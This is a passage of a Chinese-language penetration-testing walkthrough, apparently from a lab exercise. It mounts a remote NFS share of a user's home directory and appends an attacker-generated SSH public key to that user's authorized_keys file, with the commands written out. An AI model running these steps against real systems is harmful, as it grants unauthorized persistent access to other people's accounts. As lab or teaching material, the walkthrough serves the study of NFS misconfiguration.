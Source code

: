 参考下方这个链接进行安装

[https://gist.github.com/zkryakgul/bb561235b7f36c57d15a015d20c7e336](https://gist.github.com/zkryakgul/bb561235b7f36c57d15a015d20c7e336)

[![](assets/1706496403-0cfcb5387ac37125ffbc5f3462204555.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240127121227-48582c84-bcca-1.png)

成功使用

```plain
mount -t nfs 172.22.13.57:/home/joyce temp -o nolock
```

[![](assets/1706496403-3b04d8c9fda44ddba0e0baffb7132df4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240127121236-4d93c636-bcca-1.png)

此时`df -h`可以看到已成功挂载

[![](assets/1706496403-e9ff80447a59c15ee8d3938494b47558.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240127121243-51d3262e-bcca-1.png)

使用`ls -al`查看当前目录

[![](assets/1706496403-e0ec1a01744740298f1a62da778e6ff1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240127121250-55a29c8a-bcca-1.png)

### 写 SSH 公钥

写 ssh 公钥

```plain
kali 攻击机
ssh-keygen
cat id_rsa.pub

NFS 控制机
mkdir .ssh
echo "xxx">>/tmp/temp/.ssh/authorized_keys
```
